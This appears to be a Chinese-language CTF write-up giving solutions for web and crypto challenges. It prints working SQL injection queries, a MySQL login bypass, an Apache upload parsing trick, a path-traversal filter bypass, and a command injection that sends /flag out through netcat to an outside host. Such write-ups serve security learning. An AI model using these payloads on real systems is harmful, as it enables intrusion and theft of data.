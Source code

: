 # BreakAll-CTF

有些misc的script隨便寫寫，解完就忘記丟哪了，所以沒放上來

如果有找到會再補上

![](https://github.com/w181496/CTF/blob/master/BreakAll-CTF/solved.png)

## EasyPeasy

單純的Union Based MySQL Injection

`id = 1 and 1 = 2 union select 1, 2, 3`

`id = 1 and 1 = 2 union select 1, 2, group_concat(schema_name) from information_schema.schemata`

`id = 1 and 1 = 2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='fl4g'`

`id = 1 and 1 = 2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='secret'`

`id = 1 and 1 = 2 union select 1, 2, THIS_IS_FLAG_YO from fl4g.secret`


## EasyPeasy2

只是把回顯關掉

但是有True / False

所以可以用Boolean Based SQL Injection

比較意外的是這題其實可以用SQLmap，但解出來的人居然不多XD


## four-char-inj 

這題的話其實就是考MySQL的觀念

MySQL有點weak type的味道

所以`/?user='|0%23`就能過了，pass用不到

因為`'字串' | 0` 會變成0，所以整句變成`WHERE username=0`

所以假設DB中的username是`admin`，那這個條件就會成立 (類似PHP)

舉個簡單例子：`SELECT 'admin'=0;`

會回傳`1`

另外這題解答不唯一

還可以`/?user='=0%23`, `/?user='^0%23`等


## sh3ll_upload3r

這題就很單純，能上傳的內容基本上不能變，也繞不過

但他有擋副檔名，不能出現`h`

所以其實就是要考Apache解析漏洞

上傳`shell.php.abc`

再去訪問`/upload/shell.php.abc`就會跑這隻腳本惹


## youtube_viewer

這題居然沒人解XDDD

這題是某場CTF的題目改編的


因為沒有Source Code，也沒有回顯

加上題目說後端會去下載/查看youtube image

所以可以猜測可能背後是用curl或wget之類的command

(一般人很容易往XSS, SQLinj, SSRF...等方向想，但都不會想到可能是Command Injection XD)

他還提示我們多踹一些Payload，所以可以猜測應該不是常見的情境

試試常用的幾個：`&& sleep 10`, `| sleep 10`, ... 都無法

最後試: `';sleep 10;'`

OK，成功了

所以猜測他背後應該是長這樣：`system("curl 'https://youtube.com/xxxx/$myinput'")`

但沒有回顯，所以我們要把資料傳出來

可以這樣：`';cat /flag | base64 | nc ctf.kaibro.tw 5566;'`

## easy_lfi

這題會把`../`砍掉

所以只要改用`....//`，就會被取代成原本的`../`

`....//....//....//....//....//....//....//flag`

## git leak

就跟題目名字一樣

單純的git還原

就看得到FLAG惹XD


## RSA 後門 (1)

題目給了`d^2*e + 7phi`

又知`c = m^e`

所以`c^(d^2*e+7phi)%n = m^(d^2*e^2+7*phi*e)%n = m`

---

